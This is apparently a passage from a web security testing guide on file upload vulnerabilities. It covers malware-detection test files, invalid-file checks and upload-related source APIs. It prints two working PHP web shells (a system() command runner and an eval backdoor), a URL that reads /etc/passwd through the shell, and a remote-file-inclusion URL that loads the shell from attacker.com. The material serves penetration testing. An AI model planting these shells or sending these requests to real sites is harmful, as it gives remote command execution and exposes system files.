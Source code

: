 ### Malicious File

• Develop or create a file that should fail the application malware detection process. There are many available on the Internet such as ducklin.htm or ducklin-html.htm.

• Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

<http://www.eicar.org/86-0-intended-use.html>

### WebShell Backdoor

For example upload the 'WebShell-backdoor.php' to the target victim site.\

```php
<?php
    if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
    }
?>
```

Once it's uploaded, the testers/hackers may get the password by visiting the URL below.

[`http://TargetVictimSite.com/WebShell-backdoor.php?cmd=cat+/etc/passwd`](http://TargetVictimSite.com/WebShell-backdoor.php?cmd=cat+/etc/passwd)

or it may execute by remote file injection as below.

<http://TargetVictimSite.com/File.php?include=http://attacker.com/WebShell-backdoor.php>

Other PHP example:

```php
<?php @eval($_POST['password']);?>
```

### Invalid File

• Set up the intercepting proxy to capture the “valid” request for an accepted file.

• Send an “invalid” request through with a valid/acceptable file extension and see if the request is accepted or properly rejected.

### Source Code Review

When there is file upload feature supported, the following API/methods are common to be found in the source code.

-   Java: new file, import, upload, getFileName, Download, getOutputString
-   C/C++: open, fopen
-   PHP: move\_uploaded\_file(),Readfile, file\_put\_contents(),file(),parse\_ini\_file(), copy(),fopen(),include(), require()
